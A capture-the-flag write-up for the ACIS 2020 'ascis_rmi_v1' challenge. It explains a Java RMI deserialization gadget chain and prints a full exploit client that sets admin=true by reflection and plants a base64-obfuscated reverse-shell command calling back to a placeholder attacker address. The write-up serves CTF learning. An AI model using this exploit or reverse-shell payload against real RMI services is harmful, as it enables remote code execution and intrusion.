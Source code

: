 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Quals] ascis_rmi_v1"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,java,deserialization]
---
```


# [ACIS-2020-Quals] ascis_rmi_v1

![Player](img/p1.png)

## Description

- Source: [acis_rmi_v1](src/acis_rmi_v1)
- JDK version: [jdk-8u131-linux-x64.tar.gz](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

## Solution

### Idea

The gadget chain in this challenge similars to [CommonsCollections5 gadget chain](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java). But it's a simpler version. The challenge has its own RCE endpoint - `Player.toString()`, so we just need setting `admin=true` and change logCommand to run remote commands.

![Player](img/p2.png)

### Decompiling

- Client: `jar -xf ascis_player.jar`
- Server: `jar -xf ascis_service1.jar`

### Building Client

Change, build and run `ASCISPlayer` (check comments for more details):

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.management.BadAttributeValueExpException;

/*
    Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                Player.toString()

*/

public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 1337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Java Reflection

        // Get Class Player and object Player
        Class cls = Player.class;
        Player player = new Player();

        // Set admin= true
        player.setAdmin(true);

        // Set cmd
        Field cmdlog = player.getClass().getDeclaredField("logCommand");
        cmdlog.setAccessible(true);
        // cmd ~= bash -i >& /dev/tcp/10.your.ip.address/4444 0>&1
        cmdlog.set(player,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC55b3VyLmlwLmFkZHJlc3MvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}");

        // Build payload
        BadAttributeValueExpException payload = new BadAttributeValueExpException(null);
        Field valfield = payload.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(payload, player); // ~= BadAttributeValueExpException(player)

        // Call login() to exploit
        System.out.println(ascisInterf.login(payload));

    }
}
```

![Player](img/p3.png)